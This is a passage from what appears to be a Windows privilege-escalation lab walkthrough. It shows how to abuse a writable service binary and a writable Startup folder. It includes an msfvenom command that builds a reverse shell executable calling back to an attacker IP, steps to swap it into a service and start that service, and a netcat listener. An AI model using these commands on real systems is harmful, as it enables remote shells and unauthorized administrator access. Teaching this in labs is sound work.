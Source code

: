 2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o x.exe
```

3. Copy the generated file `x.exe`, to the Windows VM and replace it over  `filepermsvc.exe`.

### Windows VM

1. In command prompt type: 
```console
C:\Temp> sc start filepermsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">Startup Applications</span>

## <span style="color:lightgreen">Methodology</span>

Startup apps run in the background, the number of apps running on the system can be significantly more than what the user is aware of and affect system responsiveness. Startup apps are classified to include those leveraging these mechanisms to start:
+ Run registry keys (HKLM, HKCU, wow64 nodes included)
+ RunOnce registry keys
+ Startup folders under the start menu for per user and public locations

So basically, we need full access to the Startup folder. Then by dropping our malicious executable file, we will gain administrator access.

## <span style="color:lightgreen">Detection</span>

### Windows VM

1. Open command prompt and type: 
```console
C:\Temp> icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
![image](https://user-images.githubusercontent.com/59029171/161051050-c4b5745a-3040-4d65-8146-e67d66a3ffd3.png)

2. From the output notice that the `"BUILTIN\Users"` group has full access `'(F)'` to the directory.

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```
